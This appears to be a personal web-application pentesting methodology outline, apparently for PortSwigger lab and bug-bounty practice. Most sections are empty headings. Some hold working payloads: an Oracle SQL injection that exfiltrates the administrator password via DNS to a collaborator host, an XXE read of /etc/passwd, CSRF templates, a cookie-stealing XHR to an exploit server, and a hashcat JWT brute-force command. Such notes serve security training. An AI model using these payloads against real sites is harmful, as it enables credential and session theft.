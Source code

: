 # Methodology

## Step 1 - Enumeration
### Directory fuzzing
Directory fuzzing list [here](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/dirsearch.txt)

### Directory fuzzing

## Step 2 - Identify sensitive features
### Password
- Password reset
- Password change

### User data
- Email change

## Step 3 - Identify vulnrabilities
### SQL injections
#### DNS exfiltration
Oracle - `'||(select extractvalue(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % bjgsg SYSTEM "http://'||(select password from users where username='administrator')||'.8clatdya2m9x02ta9zxozvbmyd44svgk.oastify.com/">%bjgsg;]>'),'/l') from dual)||'`

### NoSQL injections
### Authentication
### Path traversal
### Command injection
### Business logic vulnerabilities
### Information disclosure
### Access control
### Command injection
### File upload
### Race conditions
### Server-side request forge (SSRF)
### Path traversal
#### LFI fuzzing
Fuzzing list [here](https://raw.githubusercontent.com/danielmiessler/SecLists/master/Fuzzing/LFI/LFI-Jhaddix.txt)

### XXE Injection
```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<stockCheck><productId>&xxe;</productId></stockCheck>
```
### Cross-site scripting (XSS)
### Cross-site request forge (CSRF)
#### CSRF using Javascript fetch()
```
<html>
  <script>
    fetch("https://example.com", {
      method: "POST",
      credentials: "include",
      mode: "cors",
      body: JSON.stringify(donnees),
      headers: {
            "Content-Type": "application/json",
            // 'Content-Type': 'application/x-www-form-urlencoded',
          },
    });
  </script>
</html>
```
#### CSRF using Javascript XMLHTTPRequest()
```
// GET request
const req = new XMLHttpRequest();
req.open("GET", "http://www.example.org/example.txt");
req.send();

// POST request
formData="a=test&b=value";
xhr.open("POST", "/article/xmlhttprequest/post/user");
xhr.send(formData);

// Steal cookie
xhr = new XMLHttpRequest();
xhr.open("GET", "https://exploit-0a0300fb04fc12638190ba2101d8001a.exploit-server.net/data?" + document.cookie);
xhr.send();
```
#### CSRF using Javascript HTML
```
<html>
  <form method="POST" action="https://YOUR-LAB-ID.web-security-academy.net/my-account/change-email">
    <input type="hidden" name="email" value="anything%40web-security-academy.net">
  </form>
  <script>
    document.forms[0].submit();
  </script>
</html>
```
### Cross-origin resource sharing (CORS)
### Clickjacking
### DOM-based vulnerabilities
### WebSockets
### Insecure deserialization
#### Java
##### Install JDK 8
1. Download from [Oracle website](https://www.oracle.com/fr/java/technologies/javase/javase8-archive-downloads.html)
2. Install Burp extension Java Deserialization Scanner
3. Extension - Configure Java path to `C:\Program Files\Java\jdk1.8.0_202\java.exe`
4. Extension - Configure Ysoserial path to `C:\Users\cleme\Documents\01 - Bugbounty\TRAINING\YSOSERIAL\ysoserial-all.jar`

##### Exploit
###### OOBs exploits
Leverage [Python wrapper](https://github.com/Molx32/websec/blob/main/deserialization/ysoserial.py) to get all payloads in a file, then use Intruder and wait for collaborator to retrieve DNS calls.

#### Others
### GraphQL API vulnerabilities
### Server-side template injection
### Web cache poisoning
### HTTP Host header attacks
#### Automated scan
1. Run Param Miner extension with all scans
2. Run `can selected insertion point` on the host header
#### Check reflection in response headers

### HTTP request smuggling
### OAuth authentication
### JWT attacks
#### Brute force key
Word list [here](https://github.com/wallarm/jwt-secrets/blob/master/jwt.secrets.list)
```
hashcat -a 0 -m 16500 <jwt> <wordlist>
```
### Prototype pollution



## Various
### Work with hash
#### Identify hash
Dcode tool to identify hash [here](https://www.dcode.fr/identification-hash).
#### Crack hash
Online tool - [Crack station](https://crackstation.net)
#### Calculate hash
Online tool - [CyberChef](https://gchq.github.io/CyberChef)

#### Brute force hash
